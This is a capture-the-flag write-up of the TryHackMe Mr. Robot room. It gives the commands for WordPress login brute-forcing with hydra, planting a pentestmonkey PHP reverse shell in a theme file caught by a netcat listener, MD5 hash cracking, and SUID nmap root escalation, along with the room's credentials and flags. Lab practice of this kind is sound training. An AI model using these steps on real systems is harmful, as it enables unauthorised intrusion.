# TryHackMe: Mr. Robot CTF

## Overview
This room is based on the Mr. Robot TV show and it's a boot2root style challenge. The goal is to get initial access through a WordPress site, get a low privilege shell, then escalate to root. Along the way there are 3 keys to find. This room helped me practice web enumeration, brute forcing logins, exploiting WordPress, hash cracking and SUID privilege escalation.

## Tools Used
- nmap
- gobuster
- hydra
- wget
- nc (netcat)
- Online MD5 hash cracker
- Web browser

## Enumeration

First I checked if the host was up:

```
ping 10.48.144.64
```



Then I ran an nmap scan to see what ports and services were open:

```
nmap 10.48.144.64 -sV -T4 -open
```

This showed:

```
22/tcp  open  ssh    OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp  open  http   Apache httpd
443/tcp open  ssl/http Apache httpd
```



Port 80 and 443 meant there was a website to look at, so I opened it in the browser. It showed a fsociety themed page with an IRC style intro message and a list of commands (prepare, fsociety, inform, question, wakeup, join).



I checked `robots.txt` since it's a common place to find hidden files:

```
10.48.144.64/robots.txt
```

This showed two entries:

```
fsociety.dic
key-1-of-3.txt
```



I visited `key-1-of-3.txt` directly and got the first key:

```
073403c8a58a1f80d943455fb30724b9
```



Next I ran gobuster to find more hidden directories on the site:

```
gobuster dir -u http://10.48.144.64 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

This found paths like `/wp-login.php`, `/wp-admin`, `/wp-content`, `/license`, which confirmed the site was running WordPress.



## Initial Access

Since `robots.txt` gave me a wordlist file called `fsociety.dic`, I downloaded it:

```
wget http://10.48.144.64/fsociety.dic
```

The file had duplicate words in it, so I cleaned it up:

```
sort fsociety.dic | uniq -d > fs-list
sort fsociety.dic | uniq -u >> fs-list
```

This gave me a wordlist called `fs-list` with 11,451 words.

```
wc -w fs-list
```



Now that I had a WordPress login page and a wordlist, I used hydra to brute force the username first:

```
hydra -L fs-list -p test 10.48.144.64 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -t 30
```

The `-L` flag tries a list of usernames, `-p test` uses one fixed password just to trigger the "Invalid username" error message so hydra knows which login is valid. This found the username:

```
Elliot
```



With the username confirmed, I brute forced the password using the same wordlist:

```
hydra -l Elliot -P fs-list 10.48.144.64 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered" -t 30
```

This time `-l` is a single username and `-P` is the password list. This found the password:

```
ER28-0652
```



I logged into the WordPress admin panel with these credentials and it worked, confirming access as Elliot Alderson.

```
Username: Elliot
Password: ER28-0652
```



## Exploitation

Since I had admin access to WordPress, I could edit theme files directly from the dashboard (Appearance > Editor). I used the PHP reverse shell script from pentestmonkey:

```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

I pasted this code into one of the theme files and updated the IP and port inside the script to match my attacker machine and the port I was going to listen on.

Before saving, I set up a netcat listener on my machine to catch the incoming connection:

```
nc -lnvp 4444
```

Then I visited the edited theme file's page in the browser to trigger the reverse shell. This gave me a shell back on my listener as the `daemon` user.

```
listening on [any] 4444 ...
connect to [192.168.136.74] from (UNKNOWN) [10.48.144.64] 47416
```



## Privilege Escalation

### From daemon to robot

Once I had the shell, I checked the robot home folder:

```
ls -la home/robot
```

This showed two files:

```
key-2-of-3.txt        (read only, owned by robot, could not read directly)
password.raw-md5
```

I read the md5 hash file:

```
cat /home/robot/password.raw-md5
```

Output:

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```



I took this hash and cracked it using an online md5 cracker. It came back as:

```
abcdefghijklmnopqrstuvwxyz
```



I used this password to switch to the robot user:

```
su robot
Password: abcdefghijklmnopqrstuvwxyz
whoami
```

```
robot
```



Now that I was the robot user, I could read the second key:

```
cat /home/robot/key-2-of-3.txt
```

```
822c73956184f694993bede3eb39f959
```



### From robot to root

To find a way to escalate to root, I searched for SUID binaries (files that run with the owner's permissions, in this case root, even when run by another user):

```
find / -perm -u=s -type f 2>/dev/null
```

This listed several binaries, including:

```
/usr/local/bin/nmap
```


This nmap binary was version 3.81, which is old enough to have an interactive mode that can be abused for privilege escalation since it runs as root due to the SUID bit.

I ran it:

```
/usr/local/bin/nmap
```

This dropped me into nmap's interactive mode:

```
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> whoami
root
nmap> id
uid=0(root) gid=0(root) groups=0(root),1002(robot)
```

This confirmed I now had root privileges.



## Flags / Keys

- **Key 1**: `073403c8a58a1f80d943455fb30724b9` (found at `/key-1-of-3.txt`, listed in robots.txt)
- **Key 2**: `822c73956184f694993bede3eb39f959` (found at `/home/robot/key-2-of-3.txt`, after becoming robot user)
- **Key 3**: `04787ddef27c3dee1ee161b21670b4e4` (found at `/root/key-3-of-3.txt`, after getting root)



## What I Learned
- How to check `robots.txt` for hidden files during recon
- How to brute force a WordPress login using hydra, separating username and password attacks
- How to build and clean a custom wordlist using `sort` and `uniq`
- How to get a reverse shell by editing a WordPress theme file with admin access
- How to find and read password hash files on a compromised system
- How to crack an MD5 hash to recover a plaintext password
- How to find SUID binaries with `find` and use an outdated SUID nmap binary to escalate to root

## Conclusion
This room was a good mix of web enumeration, brute forcing, WordPress exploitation and privilege escalation using SUID binaries. It helped me practice a full attack path from recon all the way to root, and showed how small misconfigurations (like an old SUID nmap binary) can lead to a full system compromise.
